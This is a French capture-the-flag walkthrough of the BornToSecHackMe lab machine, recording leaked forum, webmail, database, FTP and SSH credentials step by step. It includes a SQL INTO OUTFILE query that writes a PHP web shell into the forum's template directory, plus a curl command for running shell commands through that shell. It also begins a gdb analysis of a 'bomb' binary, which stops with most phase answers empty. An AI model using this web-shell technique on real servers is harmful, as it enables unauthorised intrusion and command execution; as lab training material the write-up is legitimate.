 Utilisation de dirbuster pour scan le site et trouver des dossiers


# Forum

- https://192.168.1.25/forum/index.php?id=6:
```
 Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

user: `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

Connection pour le forum
Dans les parametres on a l'adresse mail: `laurie@borntosec.net`


# Webmail
url: `https://192.168.1.25/webmail/src/webmail.php`
user: `laurie@borntosec.net`
password: `!q\]Ej?*5K5cy*AJ`

Un des mail donne l'acces a la base de donnees:
```


Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

# PHPMyAdmin

url: `https://192.168.1.25/phpmyadmin`
user: `root`
password: `Fg-'kKXBj87E:aJ$`

## Inclusion SQL

```
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/forum/templates_c/dd.php"
```

On peut maintenant lancer des commandes avec curl:
`curl -k https://192.168.1.25/forum/templates_c/dd.php?c=<command>`

L'option k permet de ne pas verifier le certificat.

Pour les espaces on utilise %20

Dans home on peut seulement acceder a LOOKATME

A l'interieur on a un fichier password:
`lmezard:G!@M6f4Eatau{sF"`

C'est identifiant correspondent a ceux du serveur ftp

# FTP

connection: `ftp <ip>`
user: `lmezard`
password: `G!@M6f4Eatau{sF"`


En lancant la commande `ls` on trouve deux fichier: README et fun

On utilise get pour recuperer les deux fichiers



# fun

Le fichier README nous indique qu'une fois la solution trouve on aura le mot de passe pour laurie pour la connection ssh

En lancant la commande `file` sur le fichier fun on trouve que c'est une archive tar:

```
fun: POSIX tar archive (GNU)
```

`tar -xf fun`

Une fois cette commande faite, on peut trouver un dossier contenant beaucoup de fichier.


`grep "main" *`

BJPCP.pcap


```
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```
En utilisant: `grep "" *`

getme1() -> 331ZU.pcap -> file5 donc file6 -> APM1E.pcap -> `I`
getme2() -> G7Y8I.pcap -> file37 donc file38 -> ZPY1Q.pcap -> `h`
getme3() -> B62N4.pcap -> file56 donc file57 -> ECOW1.pcap -> `e`
getme4() -> 0T16C.pcap -> file115 donc 116 -> 7DT5Q.pcap -> `a`
getme5() -> 4KAOH.pcap -> file368 donc file369 -> T7VV0.pcap -> `r`
getme6() -> 91CD0.pcap -> file521 donc file522 -> J5LKW.pcap -> `t`
getme7() -> 32O0M.pcap -> file736 donc file737 -> T44J5.pcap -> `p`
getme8() -> `w`
getme9() -> `n`
getme10() -> `a`
getme11() -> `g`
getme12() -> `e`


Resultat: `Iheartpwnage`

On le chiffre maintenant en sha-256: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

On arrive bien a se connecter en ssh avec laurie.


# ssh

user: `laurie`
password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`


On trouve dans son repertoire deux fichiers: README et bomb.

On les telecharge avec scp

On verifie l'historique mais on ne trouve rien.

Le readme nous donne le defi de trouver le mot de passe de thor

On voit en utilisant `nm` que le programme appel system et getenv. Il utilise aussi les sockets


On utilise gdb sur bomb pour pouvoir le dessassembler
`gdb ./bomb`
`disassemble main`

on voit que le programme separe les phase: phase_{1..6}

dans les phase il verifie dans un if que ce que rentre l'utilisateur correspond a une variable.

Il nous suffit donc de lire cette variable avec: `x`

phase_1: `Public speaking is very easy.`
phase_2: ``
phase_3: ``
phase_4: ``
phase_5: ``
phase_6: ``













